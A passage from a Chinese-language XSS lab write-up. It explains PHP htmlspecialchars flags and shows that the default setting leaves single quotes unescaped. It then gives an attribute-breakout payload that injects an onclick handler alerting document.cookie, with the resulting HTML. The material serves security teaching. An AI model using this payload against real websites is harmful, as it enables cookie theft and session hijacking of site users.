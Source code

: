 参数：flag(位掩码，由以下某个或多个标记组成，设置转义处理细节、无效单元序列、文档类型。 默认是 `ENT_COMPAT | ENT_HTML401`)

| **常量名称**         | **描述**                                                     |
| -------------------- | ------------------------------------------------------------ |
| **`ENT_COMPAT`**     | 会转换双引号，不转换单引号。                                 |
| **`ENT_QUOTES`**     | 既转换双引号也转换单引号。                                   |
| **`ENT_NOQUOTES`**   | 单/双引号都不转换。                                          |
| **`ENT_IGNORE`**     | 静默丢弃无效的代码单元序列，而不是返回空字符串。 不建议使用此标记， 因为它[» 可能有安全影响](http://unicode.org/reports/tr36/#Deletion_of_Noncharacters)。 |
| **`ENT_SUBSTITUTE`** | 替换无效的代码单元序列为 Unicode 代替符（Replacement Character）， U+FFFD (UTF-8) 或者 `&#xFFFD;` (其他)，而不是返回空字符串。 |
| **`ENT_DISALLOWED`** | 为文档的无效代码点替换为 Unicode 代替符（Replacement Character）： U+FFFD (UTF-8)，或 `&#xFFFD;`（其他），而不是把它们留在原处。 比如以下情况下就很有用：要保证 XML 文档嵌入额外内容时格式合法。 |
| **`ENT_HTML401`**    | 以 HTML 4.01 处理代码。                                      |
| **`ENT_XML1`**       | 以 XML 1 处理代码。                                          |
| **`ENT_XHTML`**      | 以 XHTML 处理代码。                                          |
| **`ENT_HTML5`**      | 以 HTML 5 处理代码。                                         |

前置知识结束，直接将这些预定义字符一(`'"&><`)起输入看看，结果如下

```html
<div id="xssr_main">
    <p class="xssr_title">人生之所有苦短,是因为你的xss学习的还不够好</p>
    <form method="get">
         <input class="xssr_in" type="text" name="message">
         <input class="xssr_submit" type="submit" name="submit" value="submit">
     </form>
     <p class="notice">你的输入已经被记录:</p>
    <a href="" &quot;&amp;&gt;&lt;'="">'"&amp;&gt;&lt;</a>            
</div>
```

输入插入到了dom中，且只有`'`(单引号)没被转换，利用这点闭合属性，构造恶意payload如下

```
#' onclick='alert(document.cookie)'
```

恶意payload输入提交后新的页面核心部分如下

```html
<div id="xssr_main">
    <p class="xssr_title">人生之所有苦短,是因为你的xss学习的还不够好</p>
    <form method="get">
         <input class="xssr_in" type="text" name="message">
         <input class="xssr_submit" type="submit" name="submit" value="submit">
     </form>
     <p class="notice">你的输入已经被记录:</p>
    <a href="#" onclick="alert(document.cookie)" '="">#' onclick='alert(document.cookie)'</a>            
</div>
```
